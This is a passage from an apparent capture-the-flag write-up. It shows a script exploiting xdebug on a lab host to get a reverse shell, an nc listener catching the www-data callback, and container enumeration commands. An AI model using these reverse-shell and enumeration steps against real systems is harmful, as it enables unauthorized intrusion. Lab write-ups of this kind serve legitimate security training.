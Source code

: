 Now, to get a shell, with nc listener going, run the script:

```

root@kali# ./get_olympic_www_shell.py 443
[!] Have nc listening on 443
[*] Starting listener on 0.0.0.0:9000
[+] Listening...
[*] Sending request to tip xdebug
[+] Connection received from 10.10.10.83:36262 on port 9000
[*] Sending command get shell on port 443
[*] Cleaning up. Should have callback

```

And get a callback:

```

root@kali# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 48372
‍id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

We now have access to what we’ll later find is called the the Create container.

## Pivot to Olympia Container - Shell as icarus

### Enumeration of Create

It’s quickly clear that this is a stripped down environment, likely a container:

```

‍which python

‍which python3

‍hostname
f00ba96171c5

‍ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:ac:14:00:02
          inet addr:172.20.0.2  Bcast:172.20.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3149050 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2384513 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:421530652 (402.0 MiB)  TX bytes:423441702 (403.8 MiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:36092 errors:0 dropped:0 overruns:0 frame:0
          TX packets:36092 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:2823261 (2.6 MiB)  TX bytes:2823261 (2.6 MiB)

‍arp -a
? (172.20.0.1) at 02:42:e3:e6:86:2f [ether] on eth0

‍netstat -anop | grep LISTEN
```